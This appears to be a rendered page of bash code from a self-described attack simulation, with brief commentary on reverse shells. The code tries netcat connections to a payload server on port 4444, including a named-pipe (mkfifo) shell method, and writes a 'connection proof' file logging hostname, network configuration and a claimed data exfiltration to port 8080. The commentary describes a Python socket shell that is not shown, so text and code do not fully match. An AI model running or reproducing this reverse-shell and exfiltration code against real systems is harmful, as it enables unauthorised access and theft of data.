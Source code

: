 this is the python socket-based reverse shell. it's more sophisticated and has a more interactive shell. it uses `subprocess` to execute shell commands and has a decent bidirectional channel.

```bash
# Try with netcat - with more options for compatibility
if command -v nc &> /dev/null; then
    log "$BLUE" "Trying netcat to $PAYLOAD_IP:4444 (pipe method)..."
    
    # Try different nc commands - some distributions have different versions
    if nc -h 2>&1 | grep -q "\-e"; then
        # If -e is supported (traditional netcat)
        echo "Host: $(hostname) | Time: $(date)" | nc -w 5 $PAYLOAD_IP 4444 || log "$YELLOW" "Netcat connection failed"
    else
        # Try using the mkfifo approach which works with OpenBSD netcat
        log "$BLUE" "Trying alternative netcat method with named pipe..."
        rm -f /tmp/fifo
        mkfifo /tmp/fifo 2>/dev/null
        
        # Send identification info first
        echo "NETCAT CONNECTION FROM $(hostname) at $(date)" > /tmp/fifo &
        
        # Try with timeout to prevent hanging
        cat /tmp/fifo | timeout 5 nc -w 5 $PAYLOAD_IP 4444 > /tmp/fifo 2>/dev/null || log "$YELLOW" "Alternative netcat method failed"
        rm -f /tmp/fifo
    fi
else
    log "$RED" "Netcat (nc) command not available"
fi
```

this is the netcat-based shell. it uses named pipes (`FIFO`).

```bash
# Document the connection success for the demo
if [ -f "/tmp/connection_proof.txt" ]; then
    rm -f /tmp/connection_proof.txt
fi

# Record successful connection evidence
cat > /tmp/connection_proof.txt << EOF
ATTACK SIMULATION CONNECTION PROOF
======================================
Time: $(date)
Hostname: $(hostname)
Payload Server: $PAYLOAD_IP
Connected Ports: 
  - Port 4444 (Python socket): SUCCESS
  - Port 7456 (bash attempt): FAILED
  - Port 4444 (netcat): FAILED

Network configuration:
$(ip addr)

Successful Connection Logs:
- Python socket established connection to $PAYLOAD_IP:4444
- Data exfiltration to $PAYLOAD_IP:8080 succeeded with status 200
======================================
EOF

log "$GREEN" "Reverse shell connection evidence saved to /tmp/connection_proof.txt"
log "$GREEN" "Reverse shell attempts complete"
```
